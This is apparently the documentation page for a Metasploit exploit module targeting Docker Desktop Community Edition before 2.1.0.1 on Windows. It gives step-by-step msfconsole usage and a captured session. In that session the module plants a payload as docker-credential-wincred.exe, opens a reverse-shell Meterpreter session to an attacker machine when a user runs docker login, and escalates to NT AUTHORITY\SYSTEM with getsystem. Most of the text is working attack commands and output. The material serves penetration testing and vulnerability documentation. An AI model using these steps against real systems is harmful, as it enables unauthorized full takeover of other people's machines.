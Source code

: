 ## Vulnerable Application

  Docker Desktop Community Edition before 2.1.0.1
  https://download.docker.com/win/stable/28905/Docker%20for%20Windows%20Installer.exe

## Verification Steps

  1. Install Docker Desktop Community Edition before 2.1.0.1
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/docker_credential_wincred```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. Using an administrator cmd shell on the target, run ```docker login```
  8. You should get a shell you can elevate with ```getsystem```.

## Scenarios

### Tested on Docker Community Edition 2.0.0.0 running on Windows 10x64 Release 1803

  ```
msf5 exploit(windows/local/docker_credential_wincred) > show options

Module options (exploit/windows/local/docker_credential_wincred):

   Name         Current Setting                            Required  Description
   ----         ---------------                            --------  -----------
   PROGRAMDATA  C:\ProgramData\DockerDesktop\version-bin\  no        Path to docker version-bin.
   SESSION                                                 yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/local/docker_credential_wincred) > set session 1
session => 1
msf5 exploit(windows/local/docker_credential_wincred) > check

[*] Docker version 18.09.0, build 4d60db4
[*] The target appears to be vulnerable.
msf5 exploit(windows/local/docker_credential_wincred) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Docker version 18.09.0, build 4d60db4
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] payload_pathname = C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Making Payload
[*] Uploading Payload to C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Payload Upload Complete
[*] Waiting for user to attemp to login
[*] Sending stage (180291 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49766) at 2020-04-15 16:32:09 -0500

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
